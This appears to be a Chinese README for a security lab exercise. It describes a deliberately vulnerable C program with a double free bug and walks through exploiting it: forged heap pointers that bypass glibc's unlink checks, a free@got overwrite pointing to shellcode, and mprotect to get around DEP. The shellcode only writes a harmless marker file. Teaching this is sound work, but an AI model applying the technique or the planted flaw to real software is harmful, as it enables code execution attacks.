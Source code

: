 # 程序说明

---

## 1) vul
命名：double_free
漏洞：重复释放漏洞
攻击：代码注入攻击
Shellcode：写文件

本次代码注入攻击是借助 double free 实现的，通过用户编写程序时对申请的同一堆块 double free 的不慎操作获得一个可控指针，篡改 `free@got` 表内容，最终实现将对 free 函数的调用篡改为对shellcode的调用。
漏洞程序在课件 double free 部分中所给例子的基础上，稍加改动，漏洞程序主体如下：

```c
p0 = malloc(448);
p1 = malloc(512);
free(p0);
free(p1);
p2 = malloc(768);

memcpy(p2, buf, length);

free(p1); //double free
```

### 对于 double free 以及 unlink 实现细节的绕过：
本次试验攻击模式为单纯的输入数据攻击，随着操作系统安全性的增强，存在防止堆溢出的检测代码，如下：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```
	
   	
其基本含义为：当前堆块的上一堆块中指向下一堆块的指针和当前堆块的下一堆块中指向上一堆块的指针，如果不是指向当前堆块的话，程序就会崩溃退出。
为绕过其检查，需要对注入数据进行特殊构造。已知堆块结构中存在两个指向前后空闲堆块的指针：

```c
struct malloc_chunk* fd;
struct malloc_chunk* bk;
```
	
在注入数据中将两个内存区域分别覆盖为：

```c
p0+16 = &p0-24; //本程序中为0x0000000000601080-24
p0+24 = &p0-16; //本程序中为0x0000000000601080-16
```

即 shellcode 中：

```
\x68\x10\x60\x00\x00\x00\x00\x00
\x70\x10\x60\x00\x00\x00\x00\x00
```

同时，为了绕过 unlink 时对于要释放的堆块大小的检查，在申请的堆块 `p0` , `p1` 的相关位置需覆盖如下数据：

```c
p0 = 0; //十六进制为0x0000000000000000
p0+8 = 448+1; //十六进制为0x00000000000001c1
p1-16 = 448; //十六进制为0x00000000000001c0
p1-8 = 320; //十六进制为0x0000000000000140
```

均可在 shellcode 注入数据的相关位置查看。

这样即可绕过 double free 以及 unlink 的所有相关检查，并可以获得一个可控指针。
之后寻找到 `free@got` 地址 `0x00000000000601018`，将其篡改为 shellcode 地址，本程序为 `p2+32`，那么在用户再次调用 `free(p2)` 时，即转到shellcode的调用，从而实现攻击。

### 对于操作系统相关保护的绕过：
首先，为了绕过 DEP，将 shellcode 所在页改为可执行，代码如下：

```c
mprotect((void *)((uint64_t)p2 & ~4095), 4096, PROT_WRITE|PROT_READ|PROT_EXEC);
```
	
其次，为了绕过ASLR，漏洞程序在构造的过程中对堆块指针进行全局声明，如下：

```c
unsigned char *p0;
unsigned char *p1;
unsigned char *p2;
```

最后，本程序不牵扯栈保护的相关内容。

## 2) input
`input.txt` 此文件为 shellcode，其功能为向 `output`文件夹中的 `double_free_injection_output.txt` 文件中写入字符串 `Double free attack success!`

## 3) output
如果攻击成功会产生 `double_free_injection_output.txt` 文件，文件内容为 `Double free attack success!`
如果攻击失败，将不产生文件，或文件为空

## 4) check
命名：`double_free_injection_check`
获取 `output` 文件夹下 `double_free_injection_output.txt` 文件
如果此文件不存在，或为空，返回失败信息，否则将此文件中的信息返回

## 5) compile.sh  define.json
编译命令和配置信息已经写入 `compile.sh` 和 `define.json` 文件

## 6) shellcode 生成 
用汇编写一段满足攻击要求的程序 `shellcode.asm`
按照如下命令生成 shellcode :
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
ld -s -o shellcode shellcode.o
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```



